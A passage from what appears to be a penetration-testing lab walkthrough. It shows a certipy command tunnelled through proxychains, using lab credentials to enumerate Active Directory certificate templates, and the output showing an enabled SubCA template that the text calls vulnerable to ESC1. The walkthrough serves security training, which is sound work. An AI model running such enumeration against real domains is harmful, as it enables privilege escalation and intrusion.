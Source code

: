Moreover, when tunneling via `proxychains` the `find` command of `certipy` along with the `-enabled` option, students will discover that the built-in template `SubCA`, which is vulnerable to `ESC1` by default (and allows `Client Authentication`), is enabled:

Code: shell

```shell
proxychains -q certipy find -u cken@lab.local -p Superman001 -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp -enabled -stdout
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-6eyilg2fh9]─[~]
└──╼ [★]$ proxychains -q certipy find -u cken@lab.local -p Superman001 -dc-ip 172.16.19.3 -ns 172.16.19.3 -dns-tcp -enabled -stdout

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'lab-WS01-CA' via CSRA
[*] Got CA configuration for 'lab-WS01-CA'
<SNIP>
  3
    Template Name                       : SubCA
    Display Name                        : Subordinate Certification Authority
    Certificate Authorities             : lab-WS01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : True
    Any Purpose                         : True
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : None
    Private Key Flag                    : ExportableKey
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : LAB.LOCAL\Enterprise Admins
        Write Owner Principals          : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
        Write Dacl Principals           : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
        Write Property Principals       : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
```
